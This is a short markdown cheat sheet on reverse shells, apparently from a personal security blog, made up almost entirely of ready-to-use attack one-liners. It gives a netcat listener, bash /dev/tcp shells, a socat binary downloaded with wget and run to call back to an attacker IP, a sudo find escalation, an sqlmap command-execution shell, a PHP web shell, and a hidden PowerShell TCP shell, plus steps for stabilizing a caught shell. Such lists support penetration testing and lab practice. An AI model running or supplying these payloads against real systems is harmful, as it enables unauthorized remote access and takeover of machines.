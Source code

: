 ```yaml
---
title: "Reverse Shells"
date: 2025-04-10 +0530
categories: [Cyber-Security]
tags: [bash, socat, shell, reverse, tcp, find, sqlmap, linux, shells, one-liners]
order: 6
image: /assets/images/Cyber-Security/Reverse-Shells.png
---
```


A reverse shell is a technique where the target machine initiates a connection back to the attacker, allowing remote access even through firewalls. Below are examples, including stabilization tips.

## 🎧 On the Attacker Machine (Listener)

```bash
nc -lvnp <Port>
```

Start a listener to catch the reverse shell connection.

## 🐚 Bash Reverse Shell

```bash
/bin/sh -i >& /dev/tcp/<Your-IP>/<Port> 0>&1
```

Simple, reliable one-liner using bash networking capabilities.

## 📼 Linux Script Shell

```bash
script -qc /bin/bash /dev/null
```

Used to stabilize a limited shell via `script`.

## 🔀 Socat Reverse Shell (Static Binary)

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /dev/shm/socat
chmod +x /dev/shm/socat
/dev/shm/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<Your-IP>:<Port>
```

Full-featured shell with proper TTY, even when `socat` isn’t installed.

## 🔎 Find Command Reverse Shell

```bash
sudo find . -exec /bin/sh \; -quit
```

Useful when `sudo` permissions include `find`. Pops a shell.

## 🧪 SQLMap Reverse Shell

```bash
sqlmap --os-shell --hostname target --os-cmd "bash -i >& /dev/tcp/<Your-IP>/443 0>&1"
```

Trigger a shell via SQLMap after gaining command execution access.

## 🐘 PHP Reverse Shell

```php
<?php system("bash -c 'bash -i >& /dev/tcp/<Your-IP>/4444 0>&1'"); ?>
```

Drop this on a server to trigger a reverse shell if there's file inclusion or RCE.

## 🪟 PowerShell Reverse Shell (Windows)

```powershell
powershell -nop -w hidden -c "$client = New-Object System.Net.Sockets.TCPClient('<Your-IP>',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"
```

Reverse shell for Windows systems with PowerShell access.

# 🧩 Stabilizing a Reverse Shell

When you catch a shell, it’s often unstable or limited. Here’s how to fix it.

## 🐍 Upgrade to PTY Shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Provides a pseudo-terminal (more interactive, handles input better).

## 💤 Suspend the Shell

Press `Ctrl+Z`

Sends the shell to background so you can configure your terminal.

## 🛠️ Raw Mode + Foreground

```bash
stty raw -echo
fg
```

Switches terminal mode and brings shell back to foreground.

## 📐 Fix Size + Colors

```bash
export SHELL=bash
stty rows 30 columns 120
export TERM=xterm-256color
```

Helps with arrow keys, colors, resizing issues.